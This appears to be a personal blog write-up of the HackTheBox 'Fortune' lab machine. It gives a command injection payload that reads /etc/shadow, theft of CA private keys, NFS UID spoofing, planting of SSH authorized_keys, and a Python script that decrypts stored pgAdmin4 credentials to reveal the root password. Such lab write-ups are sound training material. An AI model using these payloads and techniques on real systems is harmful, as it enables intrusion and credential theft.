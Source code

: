 ```yaml
---
title: "HackTheBox - WriteUp 11"
date: 2019-07-05T19:10:22+08:00
description: "HackTheBox 练手"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Fortune

## User

Nmap it: 22,80,443.

Then, Access 80. Burpsuite, try to submit the form, found a POST at `/select` with `db=blahblah`, This param included RCE, modify the request like this: `db=blah;cat /etc/shadow`, you'll get the response.

Found a user called `charlie`, `bob`, `nfsuser`. Then use the RCE we just found to read two files:

- /home/bob/ca/intermediate/private/intermediate.key.pem
- /home/bob/ca/intermediate/certs/intermediate.cert.pem

Then use this to create a cert: `openssl pkcs12 -inkey intermediate.key.pem -in intermediate.cert.pem -export -out inter_pfx.pfx`, and then import this certificate to your browser.

> https://www.openbsd.org/faq/pf/authpf.html

Finally, access the 443 port and get the RSA keys of SSH, then login as `nasuser` with the key you've just get. Keep the connection alive to let you continue your operation.

Nmap again, you'll find the NFS port is opened. Then `apt install nfs-common -y`, enum the nfs share with `nmap -oN fortune.nfsshowmount.nmap --script=nfs-showmount 10.10.10.127`, you'll get home shared. Mount the NFS using `mount.nfs 10.10.10.127:/home /mnt/nfs1`. NFS has a UID mapping. So create a user with UID 1000, access `/mnt/nfs1/charlie`, then you have the `user.txt`.

## Root

After that, write the public key you've just got to the `/mnt/nfs1/charlie/.ssh/authorized_keys`, then the home folder contains a file called `mbox`, this is a mail archive telling you that dba password is the same as the root.

Check the process list, you will find postgresql and `pgadmin4`. Check `/var/appsrv/pgadmin4`, there is a `PGAdmin4 V3.4` here, but installed on `/usr/local/pgadmin4/pgadmin4-3.4/`, check the folder, from the `<PGADMIN4>/web/utils/crypto.py`, you will find how to decrypt the hash we will got.

Then, at `/var/appsrv/pgadmin4/pgadmin4.db`, use `select * from server;`, the hash you've found is the hashed key of dba, and this hash is encrypted using AES-128-CFB, ciphertext is encoded in base64 with IV attached.

The encrypt password is the logged-in user's password, use `select * from user;`, just use the bob's hashed password as the encryption password, and decrypt. Decryptor Script as below:

```python
#!/usr/bin/env python3

import base64
import hashlib

from Crypto import Random
from Crypto.Cipher import AES

padding_string = b'}'

def pad(key):
    """Add padding to the key."""

    global padding_string
    str_len = len(key)

    # Key must be maximum 32 bytes long, so take first 32 bytes
    if str_len > 32:
        return key[:32]

    # If key size id 16, 24 or 32 bytes then padding not require
    if str_len == 16 or str_len == 24 or str_len == 32:
        return key

    # Convert bytes to string (python3)
    if not hasattr(str, 'decode'):
        padding_string = padding_string.decode()

    # Add padding to make key 32 bytes long
    return key + ((32 - str_len % 32) * padding_string)

    
def decrypt(ciphertext, key):
    """
    Decrypt the AES encrypted string.
    Parameters:
        ciphertext -- Encrypted string with AES method.
        key        -- key to decrypt the encrypted string.
    """

    global padding_string

    ciphertext = base64.b64decode(ciphertext)
    iv = ciphertext[:AES.block_size]
    cipher = AES.new(pad(key), AES.MODE_CFB, iv)
    decrypted = cipher.decrypt(ciphertext[AES.block_size:])

    return decrypted
    

cept = "utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz".encode()
key4aes = "$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg".encode()
print(decrypt(cept,key4aes).decode())
```

The decrypted password is: `R3us3-0f-a-P4ssw0rdl1k3th1s?_B4D.ID3A!`

Then `su root` and do anything you want.

(END)

